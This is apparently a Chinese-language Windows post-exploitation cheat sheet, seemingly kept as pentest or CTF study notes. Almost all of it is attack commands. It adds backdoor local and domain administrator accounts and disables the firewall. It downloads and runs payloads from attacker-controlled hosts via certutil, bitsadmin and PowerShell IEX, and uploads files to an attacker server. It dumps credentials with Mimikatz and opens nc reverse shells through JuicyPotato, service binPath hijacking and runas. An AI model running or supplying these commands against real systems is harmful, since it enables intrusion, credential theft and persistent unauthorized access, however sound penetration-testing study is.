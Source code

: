 
### 常用工具

* https://lolbas-project.github.io/



### 信息收集


```bash
chdir
whomai /priv
query user
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
tasklist /SVC
tree /A /F
ipconfig /all
schtasks /query /fo LIST /v
wmic service get name,displayname,pathname,startmode
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows"
PS> Get-ChildItem -Path C:\Users -Recurse -Include root.txt

dir /r
attrib *.* -h -s /s /d
findstr /si password *.xml *.ini *.txt+
where /R C:\\ proof.txt or where /R C:\\ local.txt

net user
net groups
net user 0x584a 0x584a /add
net localgroup "Remote Desktop Users" "0x584a" /add
net localgroup "Administrators" "0x584a" /add


net users /domain
net groups /domain
net user 0x584a 0x584a /add /domain /y
net group "domain controllers" /domain
net group "domain admins" 0x584a /add

# SPN查询
C:\\Windows\\Temp>setspn -q */*

for /L %i in (1,1,255) do @ping -n 1 -w 200 10.10.10.%i > nul && echo 10.10.10.%i is up.

cmdkey /list

type proof.txt && whoami && hostname && ipconfig
cat proof.txt && whoami && hostname && ip addr


dir /r ---> hm.txt:root.txt:$DATA
more < hm.txt:root.txt

# 显示或修改文件的访问控制列表
icacls or cacls
icacls "C:\path"
```



### 常用服务路径

```bash
c:\\Windows\\Temp
c:\\windows\\system32\\cmd.exe
(64-bit) C:\windows\system32\WindowsPowerShell
(32-bit) C:\windows\SysWOW64\WindowsPowerShell
C:\\Windows\\SysNative\\WindowsPowerShell\\v1.0\\PowerShell.exe
SAM文件的路径是 %SystemRoot%\system32\config\sam
```



### 安全防护配置

```bash
# 查看防火墙状态
netsh firewall show state
# 关闭防火墙
netsh firewall set opmode mode=disable

netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
netsh advfirewall show allprofiles
netsh advfirewall firewall set allprofiles state=off
netsh firewall set opmode disable
```



### 文件传递

```bash
certutil -urlcache -f http://0.0.0.0/shell2.php shell2.php
certutil.exe -urlcache -split -f "http://<ATTACKER-IP>:<PORT>/<file>" exploit.exe

bitsadmin /transfer mydownloadjob /download /priority normal http://<ATTACKER-IP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe

cscript wget.vbs <ATTACKER IP>/<FILE> evil.exe

cmd> Python Server Web Service
powershell> Invoke-WebRequest "http://0.0.0.0/winPEASx64.exe" -OutFile "winPEASx64.exe"

# 加载远程脚本模块
powershell> IEX (New-Object Net.WebClient).DownloadString('http://0.0.0.0/Invoke-Kerberoast.ps1')
powershell> IEX (New-Object Net.WebClient).DownloadString('http://0.0.0.0/Invoke-Mimikatz.ps1')
powershell> Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords full"'
powershell> Invoke-Mimikatz -DumpCreds

# 发送文件
<?php $uploaddir='/var/www/uploads/'; $uploadfile=$uploaddir . $_FILES['file']['name']; move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)?>
powershell> powershell (New-Object System.Net.WebClient).UploadFile('http://<ATTACKER-IP>:<PORT>/upload.php', 'important.docx')

kali> impacket-smbserver share `pwd`
cmd> copy \\<kali ip >\share\nc.exe .\nc.exe

kali> ftp Server
cmd> ftp <IP> --> get --> put

bash> curl --upload-file linpeas.txt http://<IP>:1337/linpeas.txt   <-- PUT 文件传递
```



### powershell

```bash
Invoke-PowerShellTcp.ps1

powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).downloadString('http://<IP>/Shell.ps1')"

cmd> powershell "IEX(New-Object Net.WebClient).downloadString('http://<IP>/s.ps1')"
cmd> powershell -executionpolicy bypass -file s.ps1

cmd> powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline 'c:\\windows\\temp\\nc.exe -e cmd <IP> 9900'"
```



### RUNAS

```bash
runas /user:<localmachinename>\administrator cmd

$secpasswd = ConvertTo-SecureString "0x584a" -AsPlainText -Force 
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator",$secpasswd) 
$computer = "computer" 
[System.Diagnostics.Process]::Start("C:\Users\Public\nc.exe","<ATTACKER-IP> <PORT> -e cmd.exe",$mycreds.Username,$mycreds.Password,$computer)
```



### 内核提权枚举、攻击

```bash
https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1
powershell> IEX(New-Object Net.WebClient).DownloadString('http://0.0.0.0/Sherlock.ps1')
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

# exploit只适应x64框架
https://raw.githubusercontent.com/FuzzySecurity/PSKernel-Primitives/master/Sample-Exploits/MS16-135/MS16-135.ps1

windows-exploit-suggester.py --impact "elevation of privilege" systeminfo.txt
```

### 常用工具

* Invoke-PowerShellTcp.ps1
* PowerUp.ps1 --> Invoke-AllChecks
* Seatbelt.exe
* SharpUp.exe
* winPEAS.exe
* Sherlock
* Windows-Exploit-Suggester




### whoami /priv

> SeImpersonatePrivilege 权限下可用工具进行提权：

```bash
juicy-potato*
RogueWinRm
SweetPotato
PrintSpoofer
```



### juicy potato

https://github.com/ohpe/juicy-potato

```bash
.\JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Windows\Temp\nc.exe -e cmd.exe <kali ip> 9900" -t *

```

Windows 7 Enterprise
Windows 8.1 Enterprise
Windows 10 Enterprise
Windows 10 Professional
Windows Server 2008 R2 Enterprise
Windows Server 2012 Datacenter
Windows Server 2016 Standard



### Print Spoofer

```bash
.\PrintSpoofer.exe -i -c "whoami"


https://github.com/calebstewart/CVE-2021-1675 cve-2021-1675.ps1
在没用 SeImpersonatePrivilege 权限的场景下提权
```


### 术语解析

>  LM Hash & NTLM Hash https://www.anquanke.com/post/id/193149

windows内部是不保存明文密码的，只保存密码的hash。
其中本机用户的密码hash是放在 本地的SAM文件 里面，域内用户的密码hash是存在域控的NTDS.DIT文件 里面。那hash的格式是怎么样的呢?
在Windows系统导出密码的时候，经常看到这样的密码格式
Administrator:500:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0:::
其中的AAD3B435B51404EEAAD3B435B51404EE是LM Hash
31D6CFE0D16AE931B73C59D7E0C089C0是NTLM Hash

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://guif.re/windowseop




## 常用版本提权exploit

### Microsoft Windows Server 2008 R2 Datacenter

MS10_092
ms10-059 Chimichurri
MS15-051

### Microsoft Windows 7 Enterprise

ms10-059 Chimichurri

```
cmd> Chimichurri.exe <IP> 9900
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
```

### Windows 10.0 Build 17763 x64

PrintSpoofer

### 常用服务提权

```bash
sc.exe config vss binPath="C:\Users\svc-printer\Downloads\nc.exe -e cmd.exe <IP> 9900"
sc.exe stop vss
sc.exe start vss
```
